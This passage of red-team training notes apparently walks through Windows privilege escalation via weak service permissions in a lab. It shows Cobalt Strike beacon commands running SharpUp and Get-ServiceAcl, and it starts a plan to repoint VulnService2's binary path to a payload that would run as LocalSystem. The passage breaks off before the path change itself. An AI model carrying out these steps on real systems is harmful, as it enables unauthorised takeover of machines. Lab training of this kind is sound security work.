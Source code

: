 ### Restoring the Service

Simply delete the `Service.exe` and restart the endpoint.

## Weak Service Permissions

### Further Triaging SharpUp Output

**The following output shows that `VulnService2` is `modifiable`:**

```
beacon> execute-assembly C:\Tools\SharpUp\SharpUp\bin\Release\SharpUp.exe audit ModifiableServices

=== Modifiable Services ===

	Service 'VulnService2' (State: Running, StartMode: Auto)
```

Although it shows that it is a `modifiable` service, it still does not show exactly what those explicit permissions are, so we are going to need to enumerate further.&#x20;

**We can accomplish this with the following PowerShell script, `Get-ServiceAcl.ps1` that will print out which service rights we have access to:**

```
beacon> powershell-import C:\Tools\Get-ServiceAcl.ps1
beacon> powershell Get-ServiceAcl -Name VulnService2 | select -expand Access

ServiceRights     : ChangeConfig, Start, Stop
AccessControlType : AccessAllowed
IdentityReference : NT AUTHORITY\Authenticated Users
IsInherited       : False
InheritanceFlags  : None
PropagationFlags  : None
```

Here, we can see that all `Authenticated Users` have `ChangeConfig`, `Start` and `Stop` privileges over this service.

### Abusing Weak Permissions

As a result, we can abuse these weak permissions by changing the binary path of the service — so rather than running `C:\Program Files\Vulnerable Services\Service2.exe`, we can run something like `C:\Temp\Payload.exe`.

1. **First, we need to validate that the current path is `"C:\Program Files\Vulnerable Services\Service 2.exe"` (also note that the path is quoted):**

```
beacon> run sc qc VulnService2
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: VulnService2
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 2   AUTO_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\Vulnerable Services\Service 2.exe"
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : VulnService2
        DEPENDENCIES       : 
        SERVICE_START_NAME : LocalSystem
```
